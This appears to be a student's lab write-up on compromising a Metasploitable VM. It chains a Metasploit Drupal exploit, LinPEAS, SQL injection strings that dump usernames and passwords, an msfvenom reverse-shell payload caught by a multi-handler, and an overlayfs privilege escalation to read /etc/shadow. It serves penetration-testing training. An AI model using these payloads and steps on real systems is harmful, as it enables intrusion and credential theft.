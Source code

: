 ## **Objective:** Exploit a Linux machine and escalate privileges to gain root access.

1. On my Kali VM, I executed **ifconfig** to identify the machine's IP address, which was **10.0.2.6**. I subsequently conducted a scan with command **nmap 10.0.2.0/25** and noted the resulting IP address, **10.0.2.15**, and its open ports, especially port 80. This IP is believed to be that of the Metasploitable VM.
2. I accessed the Metasploitable VM's IP **10.0.2.15** via Firefox and navigated to the Drupal directory.
3. Launching MSFconsole, I searched for **drupal exploits** and selected exploit number 2, based on its HTTP parameter key, which corresponds to the service running on port 80.
4. Upon executing the **use 2** command, I viewed the module options using **show options**. I identified that the RHOSTS (Target IP), RPORT (80), and TARGETURI (URL from Firefox) settings needed configuration.
5. Once configured, I initiated the exploit, which led to opening a Meterpreter session. Running **getuid** revealed the username **www-dat**.
6. I proceeded to the LinPEAS GitHub page and executed its command on the VM. This initiated LinPeas, and I noted the overlayfs CVE **[CVE-2016-1328] overlayfs**.
7. In the Meterpreter session, I searched for **overlayfs modules**, opting for number 1, given its disclosure date matched the year of the identified CVE.
8. After executing **use 1**, I set the LHOST (Host IP) options and established the session to number 1.
9. Unfortunately, running the exploit didn't generate a session due to PHP's session architecture.
10. I reverted to the root directory and identified **payroll_app.php**. Attempting SQL Injection in the username field with **’ OR 1=1#**, I was presented with a list of usernames, full names, and associated salaries.
11. Returning to the login page, I inserted **' OR 1=1 UNION SELECT null,null,username,password FROM users#** in the username field. This action revealed another list, which included usernames, passwords, full names, and salaries.
12. From this list, I decided to log in as jarjar_binks. As the earlier nmap scan showed port 22 open for SSH, I initiated an SSH session with **jarjar_binks@10.0.2.15**. After inputting the password, I successfully logged in as jarjar_binks.
13. In this session, I navigated to the **etc directory** and attempted to view the shadow file using **cat**. Access was denied.
14. To escalate privileges, I created an MSFvenom payload. The command **msfvenom -l payloads | grep linux** revealed the desired payload **linux/x86/shell/reverse_tcp**.
15. I crafted this payload, configuring the LHOST and LPORT, and saved it as an ELF file named **shells**.
16. To transfer the file to the target machine, I utilized scp with the command **scp shells.elf jarjar_binks@10.0.2.15:/home/jarjar_binks**. I verified the transfer using the ls command.
17. Back in the MSF console, I searched for a multi-handler and selected number 5, given its generic payload handling capabilities.
18. I set the payload options for **linux/x86/shell/reverse_tcp**, including LHOST and LPORT.
19. Executing the multi-handler using **run**, I transitioned to the SSH session and ran “./shells.elf”. This action opened shell session 2 in msfconsole, confirming my login as jarjar_binks via the **whoami** command.
20. I returned to the MSF console, repeated the overlayfs search, and used option 1 again. Setting the session to number 2 and running the exploit opened session 3, wherein I had root access, confirmed by the **whoami** command.
21. Navigating to the etc directory and executing cat on the shadow file, I finally gained access.

